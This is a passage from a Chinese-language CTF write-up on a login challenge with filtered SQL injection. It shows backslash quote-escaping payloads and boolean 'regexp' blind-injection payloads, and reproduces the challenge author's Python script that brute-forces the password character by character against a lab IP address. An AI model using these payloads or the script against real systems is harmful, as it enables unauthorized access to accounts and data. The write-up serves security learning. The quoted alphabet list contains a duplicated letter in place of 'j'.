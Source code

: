 先看看请求头等其它地方又没有什么信息，无果，那就老老实实注入吧。Fuzz一下，单双引号、select、union都被拦截了。一步一步来。

首先这肯定是个字符型注入，引号又被过滤，只能想着对原有的引号下手，宽字节试了一下没什么用，不过"\\"起作用了，Payload：

```
POST：password=or 2>1#&username=\
```

返回里有句话变了：

```
BJD needs to be stronger
```

失败了？但是修改Payload中的布尔值之后的返回和其它错误密码的结果一样：

```
You konw ,P3rh4ps needs a girl friend
```

这说明刚刚的注入确实成功了，应该是在PHP中将我们的输入和Mysql返回的密码又做了一次对比，那就盲注一下密码，Payload：

```
POST：password=or password regexp ^0x#&username=\
```

Python跑了结果是：

```
ohyoufoundit
```

然后登录，失败了，还是没有通过在PHP中的验证，但在Mysql中确确实实是通过了，很疑惑。

看了官方WP，原来是大小写的问题，所以虽然Mysql通过了，但在PHP中被大小写拦住了，出题人的脚本：

```python
import requests
# P3rh4ps tql!!!
url='http://39.106.207.66:2333/'
def str2hex(string):
    c='0x'
    a=''
    for i in string:
        a+=hex(ord(i))
    return c+a.replace('0x','')
alphabet = ['!','[',']','{','}','_','/','-','&',"%",'#','@','a','b','c','d','e','f','g','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','G','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']


flag='^'
for i in range(0,20):
    for y in alphabet:
        tmp=flag+y
        data = {
            "username": "P3rh4ps\\",
            "password": "||password regexp binary {}#".format(str2hex(tmp))
        }
   #     print(data['password'])
        x=requests.session()
        if 'BJD needs' in x.post(url,data=data).text:
        #    print(x.post(url,data=data).text)
            flag=tmp
            break
    print(flag.replace("^",""))
```
